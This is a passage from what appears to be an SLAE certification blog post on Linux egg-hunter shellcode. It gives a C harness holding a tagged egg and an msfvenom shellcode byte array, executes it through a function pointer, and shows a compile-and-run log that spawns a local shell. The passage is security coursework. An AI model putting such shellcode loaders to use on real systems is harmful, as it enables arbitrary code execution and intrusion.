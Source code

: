 ```c

unsigned char egg[] = \
"\x90\x50\x90\x50\x90\x50\x90\x50" // tagged egg
"\xbd\xea\xfb\x87\x4a\xda\xdb\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1" // msfvenom payload
"\x0b\x31\x6a\x15\x03\x6a\x15\x83\xea\xfc\xe2\x1f\x91\x8c\x12"
"\x46\x34\xf5\xca\x55\xda\x70\xed\xcd\x33\xf0\x9a\x0d\x24\xd9"
"\x38\x64\xda\xac\x5e\x24\xca\xa7\xa0\xc8\x0a\x97\xc2\xa1\x64"
"\xc8\x71\x59\x79\x41\x25\x10\x98\xa0\x49";

int main()
{
        printf("Hunter length: %d bytes\n", strlen(hunter));
        printf("Egg length: %d bytes\nHunting the egg...\n", strlen(egg));
        int (*ret)() = (int(*)())hunter;
        ret();
}
```

#### POC (C Code)
------

The C code is compiled as an executable ELF binary and executed:

```bash
osboxes@osboxes:~/Downloads/SLAE$ gcc -fno-stack-protector -z execstack -m32 shellcode.c -o egghunter_final
osboxes@osboxes:~/Downloads/SLAE$ ./egghunter_final 
Hunter length: 35 bytes
Egg length: 78 bytes
Hunting the egg...
$ id
uid=1000(osboxes) gid=1000(osboxes) groups=1000(osboxes),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ 
```

##### SLAE Disclaimer ####
---------

This blog post has been created for completing the requirements of the [SLAE certification] [slae-link].

Student ID: PA-14936

GitHub Repo: [Code][github-code]

[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment2


[skape-link]: http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf